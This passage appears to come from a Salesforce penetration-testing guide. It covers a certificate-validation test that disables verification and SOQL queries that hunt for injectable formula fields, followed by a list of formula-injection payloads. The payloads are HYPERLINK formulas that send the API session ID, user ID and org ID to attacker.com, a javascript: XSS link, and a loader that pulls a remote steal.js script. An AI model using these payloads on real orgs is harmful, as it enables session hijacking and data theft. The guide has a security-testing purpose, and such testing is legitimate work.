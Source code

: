 **Certificate Validation Testing**:
```python
def test_certificate_validation(endpoint):
    """Test SSL certificate validation"""
    import urllib3
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    
    try:
        # Test with invalid certificate
        response = requests.get(endpoint, verify=False, timeout=10)
        print(f"Insecure connection accepted: {response.status_code}")
    except Exception as e:
        print(f"Insecure connection rejected: {e}")
    
    try:
        # Test with proper certificate validation
        response = requests.get(endpoint, verify=True, timeout=10)
        print(f"Secure connection successful: {response.status_code}")
    except Exception as e:
        print(f"Certificate validation failed: {e}")
```

**Impact**: Man-in-the-middle attacks, credential compromise, external service abuse.

---

## Advanced Attack Vectors

### 1. Formula Injection Attacks

**Objective**: Identify and exploit formula injection vulnerabilities in calculated fields and validation rules.

**Formula Field Discovery**:
```sql
-- Formula fields with potential injection risks
SELECT Id, QualifiedApiName, Label, FormulaSourceText,
       EntityDefinition.QualifiedApiName as ObjectName
FROM FieldDefinition 
WHERE DataType IN ('Text', 'Url') 
  AND FormulaSourceText != null 
  AND (FormulaSourceText LIKE '%HYPERLINK%' OR FormulaSourceText LIKE '%IMAGE%')

-- Validation rules with formulas
SELECT Id, ValidationName, ErrorConditionFormula, ErrorMessage,
       EntityDefinition.QualifiedApiName as ObjectName, IsActive
FROM ValidationRule 
WHERE IsActive = true 
  AND (ErrorConditionFormula LIKE '%HYPERLINK%' OR ErrorConditionFormula LIKE '%TEXT%')
```

**Formula Injection Payloads**:
```javascript
// Information disclosure
HYPERLINK("http://attacker.com/exfil?session=" & $Api.Session_ID, "Click Here")

// User context information
HYPERLINK("http://attacker.com/exfil?user=" & $User.Id & "&org=" & $Organization.Id, "Link")

// Cross-site scripting via formulas
HYPERLINK("javascript:alert('XSS via Formula')", "Click for XSS")

// Advanced payload with data exfiltration
HYPERLINK("javascript:void((function(){var s=document.createElement('script');s.src='//attacker.com/steal.js';document.head.appendChild(s);})())", "Malicious Link")

```